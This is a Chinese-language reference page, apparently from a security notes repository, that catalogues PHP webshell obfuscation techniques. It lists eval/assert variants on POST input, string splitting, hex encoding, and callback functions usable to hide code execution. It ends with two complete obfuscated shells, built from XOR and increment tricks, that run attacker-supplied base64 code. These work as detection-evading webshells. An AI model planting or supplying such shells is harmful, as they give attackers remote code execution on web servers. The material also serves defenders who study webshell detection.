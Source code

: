 WebShell
================================

常见变形
--------------------------------
- GLOBALS
    - ``eval($GLOBALS['_POST']['op']);``
- ``$_FILE``
    - ``eval($_FILE['name']);``
- 拆分
    - ``assert(${"_PO"."ST"} ['sz']);``
- 动态函数执行
    - ``$k="ass"."ert"; $k(${"_PO"."ST"} ['sz']);``
- create_function
    - ``$function = create_function('$code',strrev('lave').'('.strrev('TEG_$').'["code"]);');$function();``
- preg_replace
- rot13
- base64
- 进制转化
    - ``"\x62\x61\163\x65\x36\x34\137\144\145\x63\x6f\144\145"``
- 利用文件名
    - ``__FILE__``

字符串变形函数
--------------------------------
- ucwords
- ucfirst
- trim
- substr_replace
- substr
- strtr
- strtoupper
- strtolower
- strtok
- str_rot13

回调函数
--------------------------------
- call_user_func_array
- call_user_func
- array_filter 
- array_walk  
- array_map
- registregister_shutdown_function
- register_tick_function
- filter_var 
- filter_var_array 
- uasort 
- uksort 
- array_reduce
- array_walk 
- array_walk_recursive

特殊字符Shell
--------------------------------
PHP的字符串可以在进行异或、自增运算的时候，会直接进行运算，故可以使用特殊字符来构成Shell。

::

    @$_++;
    $__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");
    @${$__}[!$_](${$__}[$_]);


::

    $_=[];
    $_=@"$_"; // $_='Array';
    $_=$_['!'=='@']; // $_=$_[0];
    $___=$_; // A
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
    $___.=$__; // S
    $___.=$__; // S
    $__=$_;
    $__++;$__++;$__++;$__++; // E 
    $___.=$__;
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
    $___.=$__;
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
    $___.=$__;
    $____='_';
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
    $____.=$__;
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
    $____.=$__;
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
    $____.=$__;
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
    $____.=$__;

    $_=$$____;
    $___(base64_decode($_[_]));
